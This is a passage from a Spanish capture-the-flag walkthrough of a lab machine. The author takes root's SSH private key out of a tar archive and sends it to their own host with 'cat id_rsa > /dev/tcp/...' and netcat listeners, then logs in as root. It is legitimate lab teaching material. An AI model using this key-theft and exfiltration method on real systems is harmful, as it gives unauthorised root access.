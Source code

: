 como podemos ver tenemos la claves ssh de root!

-------------------------------------------------------------------------------

Extraemos las claves tanto pública como privada y nos la enviamos a nuestra máquina:

```bash
> tar -xvf pepa.tar root/.ssh/id_rsa.pub
```

```bash
> ls -la /tmp/root/.ssh
-rw------- 1 admin admin 3243 Jun 28  2020 id_rsa
-rw-r--r-- 1 admin admin  744 Jun 28  2020 id_rsa.pub
[admin@votenow .ssh]$ cat id_rsa > /dev/tcp/192.168.1.80/443
[admin@votenow .ssh]$ cat id_rsa.pub > /dev/tcp/192.168.1.80/443
```

en nuestra máquina previamente habíamos creado un listener con:

```bash
> nc -lvnp 443 > id_rsa
y
> nc -lvnp 443 > id_rsa.pub
```

-------------------------------------------------------------------------------

Con estos ficheros, hacemos ssh a la máquina víctima:

```bash
> ssh -p 2082 root@192.168.1.142 -i id_rsa
```

```bash
Last login: Sun Jun 28 00:42:56 2020 from 192.168.56.1

[root@votenow ~]# pwd                                                                            
/root

[root@votenow ~]# ls -la
total 36
dr-xr-x---.  7 root root  267 jun 28  2020 .
dr-xr-xr-x. 17 root root  244 jun 27  2020 ..
-rw-------.  1 root root 1262 jun 27  2020 anaconda-ks.cfg
lrwxrwxrwx.  1 root root    9 jun 27  2020 .bash_history -> /dev/null
-rw-r--r--.  1 root root   18 dic 29  2013 .bash_logout
-rw-r--r--.  1 root root  176 dic 29  2013 .bash_profile
-rw-r--r--.  1 root root  176 dic 29  2013 .bashrc
drwxr-xr-x.  3 root root   22 jun 27  2020 .cache
drwxr-xr-x.  4 root root   34 jun 27  2020 .config
-rw-r--r--.  1 root root  100 dic 29  2013 .cshrc
drwxr-xr-x.  3 root root   19 jun 27  2020 .local
lrwxrwxrwx.  1 root root    9 jun 27  2020 .mysql_history -> /dev/null
drwxr-----.  3 root root   19 jun 27  2020 .pki
-rwx------   1 root root  278 jun 28  2020 root-final-flag.txt
drwx------   2 root root   61 jun 28  2020 .ssh
-rw-r--r--.  1 root root  129 dic 29  2013 .tcshrc
-rw-------   1 root root 5210 jun 28  2020 .viminfo
```
